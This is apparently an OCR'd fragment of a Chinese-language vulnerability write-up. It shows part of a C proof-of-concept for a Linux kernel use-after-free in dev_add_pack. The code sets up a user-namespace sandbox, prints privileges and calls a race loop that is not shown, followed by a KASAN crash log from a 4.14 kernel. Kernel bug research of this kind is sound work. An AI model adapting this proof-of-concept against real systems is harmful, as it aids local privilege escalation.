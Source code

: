 ```
	if (unshare(CLONE_NEWNET) != 0) {
		perror("[-] unshare(CLONE_NEWUSER)");
		exit(EXIT_FAILURE);
	}

	if (!write_file("/proc/self/setgroups", "deny")) {
		perror("[-] write_file(/proc/self/set_groups)");
		exit(EXIT_FAILURE);
	}
	if (!write_file("/proc/self/uid_map", "0 %d 1\n", real_uid)) {
		perror("[-] write_file(/proc/self/uid_map)");
		exit(EXIT_FAILURE);
	}
	if (!write_file("/proc/self/gid_map", "0 %d 1\n", real_gid)) {
		perror("[-] write_file(/proc/self/gid_map)");
		exit(EXIT_FAILURE);
	}
}

int main(int argc, char *argv[]) 
{
	setup_sandbox();
	system("id; capsh --print");
	loop_race();	
	return 0;
}
```

## 崩溃日志
```
[   73.703931] dev_remove_pack: ffff880067cee280 not found
[   73.717350] ==================================================================
[   73.726151] BUG: KASAN: use-after-free in dev_add_pack+0x1b1/0x1f0
[   73.729371] Write of size 8 at addr ffff880067d28870 by task poc/1175
[   73.732594] 
[   73.733605] CPU: 3 PID: 1175 Comm: poc Not tainted 4.14.0-rc1+ #29
[   73.737714] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.10.1-1ubuntu1 04/01/2014
[   73.746433] Call Trace:
[   73.747985]  dump_stack+0x6c/0x9c
[   73.749410]  ? dev_add_pack+0x1b1/0x1f0
[   73.751622]  print_address_description+0x73/0x290
[   73.753646]  ? dev_add_pack+0x1b1/0x1f0
[   73.757343]  kasan_report+0x22b/0x340
[   73.758839]  __asan_report_store8_noabort+0x17/0x20
[   73.760617]  dev_add_pack+0x1b1/0x1f0
[   73.761994]  register_prot_hook.part.52+0x90/0xa0
[   73.763675]  packet_create+0x5e3/0x8c0
[   73.765072]  __sock_create+0x1d0/0x440
[   73.766030]  SyS_socket+0xef/0x1b0
[   73.766891]  ? move_addr_to_kernel+0x60/0x60
[   73.769137]  ? exit_to_usermode_loop+0x118/0x150
[   73.771668]  entry_SYSCALL_64_fastpath+0x13/0x94
[   73.773754] RIP: 0033:0x44d8a7
[   73.775130] RSP: 002b:00007ffc4e642818 EFLAGS: 00000217 ORIG_RAX: 0000000000000029
[   73.780503] RAX: ffffffffffffffda RBX: 00000000004002f8 RCX: 000000000044d8a7
[   73.785654] RDX: 0000000000000011 RSI: 0000000000000003 RDI: 0000000000000011
[   73.790358] RBP: 00007ffc4e642840 R08: 00000000000000ca R09: 00007f4192e6e9d0
[   73.793544] R10: 0000000000000000 R11: 0000000000000217 R12: 000000000040b410
[   73.795999] R13: 000000000040b4a0 R14: 0000000000000000 R15: 0000000000000000
[   73.798567] 
[   73.799095] Allocated by task 1360:
```